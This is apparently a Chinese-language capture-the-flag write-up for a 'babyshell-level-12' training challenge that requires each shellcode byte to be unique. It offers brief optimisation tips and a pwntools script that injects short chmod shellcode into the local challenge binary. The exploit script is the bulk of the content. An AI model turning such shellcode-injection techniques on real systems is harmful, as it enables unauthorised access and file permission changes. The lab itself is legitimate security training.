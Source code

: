 # 挑战简介
此挑战要求你的 shellcode 中的每个字节都是唯一的！

# 思路
想要字节唯一，你要满足以下几点
- shellcode尽可能短
- 指令不要用重复的形式，学会活用，降位就是一个好方法

所以我们还是套模板，继续chmod

```
#!/usr/bin/python
from pwn import *
import struct
import os
cache_dir = '/tmp/.pwntools-cache'
if not os.path.exists(cache_dir):
    os.makedirs(cache_dir)

context(os='linux', arch='amd64', log_level='debug', cache_dir=cache_dir)

p = process('/challenge/babyshell-level-12')

p.recvuntil('Reading 0x1000 bytes from stdin.\n')

shellcode = asm('''
    push 0x66
    mov rdi, rsp
    mov sil, 4
    mov al, 90
    syscall
    ret
''')


# 为安全起见，打印完整的shellcode十六进制表示
print("Shellcode十六进制:", shellcode.hex())
print("Shellcode长度:", len(shellcode), "字节")

p.send(shellcode)

# 与shell交互
p.interactive()
p.recvall()
```
